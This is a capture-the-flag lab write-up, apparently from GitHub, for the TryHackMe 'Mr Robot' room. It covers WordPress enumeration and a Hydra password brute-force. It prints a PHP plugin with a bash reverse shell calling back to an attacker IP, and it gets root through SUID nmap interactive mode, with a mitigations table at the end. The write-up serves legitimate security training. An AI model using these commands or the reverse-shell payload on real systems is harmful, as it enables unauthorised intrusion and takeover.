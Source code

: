 [Mr Robot CTF](https://tryhackme.com/room/mrrobot)

**Difficulty:** Medium

**Objective:** Enumerate a WordPress instance, brute-force login, upload a reverse shell plugin, and escalate privileges via vulnerable Nmap SUID binary.

---

## Table of Contents  
- [1. Summary](#1-summary)  
- [2. Methodology](#2-methodology)  
- [3. Reconnaissance](#3-reconnaissance)  
- [4. Enumeration](#4-enumeration)  
- [5. Exploitation](#5-exploitation)  
- [6. Privilege Escalation](#6-privilege-escalation)  
- [7. Post Exploitation](#7-post-exploitation)  
- [8. Flags / Proof](#8-flags--proof)  
- [9. Mitigations](#9-mitigations)  
- [10. Notes](#10-notes)

---

## 1. Summary  
**IP/URL:** 10.10.122.143  
**Service/Ports:** 80/HTTP, 443/HTTPS  
**Entry Point:** WordPress login form  
**Privilege Escalation:** Nmap interactive mode (SUID binary)  
**Outcome:** Gained root shell, captured key-2-of-3 and key-3-of-3

---

## 2. Methodology  
Following the PTES (Penetration Testing Execution Standard):  
1. Reconnaissance  
2. Enumeration  
3. Exploitation  
4. Privilege Escalation  
5. Post-Exploitation  
6. Reporting

---

## 3. Reconnaissance  
Initial Nmap scan:  
nmap 10.10.122.143 -sV  
Results:  
Port 80: Apache httpd  
Port 443: Apache httpd (SSL)  
Port 22: Closed  
Web server showed generic Mr. Robot theme content with minimal interaction.

---

## 4. Enumeration  
Ran Gobuster:  
gobuster dir -u http://10.10.122.143 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  
Interesting results: /wp-login, /license, /readme, /robots  
Robots.txt contained clues and a downloadable wordlist: fsocity.dic  
Downloaded the wordlist: wget http://10.10.122.143/fsocity.dic  
Captured login form in Burp Suite to identify response messages  
Used Hydra to brute-force usernames:  
hydra -L fsocity.dic -p test 10.10.122.143 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username"  
Found valid user: Elliot  
Brute-forced password:  
hydra -l Elliot -P fsocity.dic 10.10.122.143 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=The password you entered for the username"  
Sorted the wordlist to improve speed: sort -u fsocity.dic > newlist.txt  
Found password: ER28-0652

---

## 5. Exploitation  
Logged into WordPress as Elliot  
Created a reverse shell plugin with the following code:  
<?php  
/*  
Plugin Name: Shell  
*/  
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.21.157.185/1337 0>&1'");  
?>  
Saved as shell.php and zipped it: zip shell.zip shell.php  
Uploaded the plugin via WordPress admin panel  
Set up listener: nc -lvnp 1337  
Executed the plugin and received shell as user daemon

---

## 6. Privilege Escalation  
Enumerated SUID binaries:  
find / -perm -4000 -type f 2>/dev/null  
Found vulnerable version of Nmap: /usr/local/bin/nmap  
Checked version: 3.81 (supports deprecated --interactive mode)  
Launched interactive shell: /usr/local/bin/nmap --interactive  
Typed: !sh  
Gained root shell

---

## 7. Post Exploitation  
Searched for final flags using:  
find / -name "key-2-of-3.txt" 2>/dev/null  
Found: /home/robot/key-2-of-3.txt  
Then: find / -name "key-3-of-3.txt" 2>/dev/null  
Found: /root/key-3-of-3.txt

---

## 8. Flags / Proof  
User Flag: Previously captured  
Key 2 of 3: /home/robot/key-2-of-3.txt  
Key 3 of 3: /root/key-3-of-3.txt

---

## 9. Mitigations  
| Vulnerability                     | Risk     | Suggested Mitigation                              |  
|----------------------------------|----------|---------------------------------------------------|  
| Weak WordPress Credentials       | High     | Enforce strong passwords and rate-limit logins    |  
| Uploadable Plugins               | High     | Restrict plugin uploads to vetted admins only     |  
| SUID Nmap (Old Version)          | Critical | Remove or upgrade Nmap to disable --interactive   |  
| Wordlist Exposure in robots.txt  | Medium   | Avoid exposing internal files in public configs   |

---

## 10. Notes  
Time spent: ~1 hour

Tools used: nmap, gobuster, hydra, burp suite, WordPress, nc  

Lessons learned: Outdated binaries and misconfigured web services provide a powerful attack path when chained properly. Always check for SUID and known-exploitable software like old Nmap versions.


























